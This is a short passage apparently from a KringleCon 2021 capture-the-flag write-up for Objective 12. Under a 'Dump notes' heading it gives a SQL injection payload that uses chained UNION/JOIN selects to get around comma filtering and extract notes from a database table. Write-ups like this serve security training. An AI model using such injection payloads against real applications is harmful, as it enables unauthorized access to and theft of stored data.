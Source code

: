![Objective12 dump columns](/assets/kringlecon2021/objective12/objective12_dumpcolums.jpg)


Dump notes
{% highlight sql %}
(1),(1) union select * from (select 1)UT1 JOIN (SELECT note FROM encontact.todo)UT2 on 1=1 JOIN (SELECT 3)UT3 on 1=1 JOIN (SELECT 4)UT4 on 1=1 JOIN (SELECT 5)UT5 on 1=1 JOIN (SELECT 6)UT6 on 1=1 JOIN (SELECT 7)UT7 on 1=1--
{% endhighlight %}

